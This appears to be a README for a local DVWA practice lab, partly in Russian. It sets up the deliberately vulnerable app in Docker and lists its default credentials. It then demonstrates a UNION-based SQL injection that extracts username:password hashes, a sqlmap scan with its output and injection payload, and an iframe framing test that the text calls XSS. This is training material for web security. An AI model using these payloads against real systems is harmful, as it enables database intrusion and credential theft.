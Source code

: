 ## Запуск тестового сайта

```
docker run --rm -it -p 80:80 vulnerables/web-dvwa
```

## Настройка
1. http://localhost/index.php
2. reset/create database
3. admin:password
4. `%' and 1=0 union select null, concat(user,':',password) from users`
5. The MD5 hash: 5f4dcc3b5aa765d61d8327deb882cf99 was succesfully reversed into the string: password.

## SQL-injection scan example
`sqlmap -r sqlmap.example --dbms=mysql --risk=3 --level=5`<br/>
GET parameter 'id' is **vulnerable**. <br/>
sqlmap identified the following injection point(s) with a total of 502 HTTP(s) requests:
```
Parameter: id (GET)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT)
    Payload: id=1' OR NOT 4197=4197-- twle&Submit=Submit
```

## XSS-injection example
open iframe.html in browser you should not see the site<br/>
Refused to display 'https://ya.ru/' in a frame because it set 'X-Frame-Options' to 'deny'.<br/>
But on the vulnerable app like localhost/login.php you will see the form

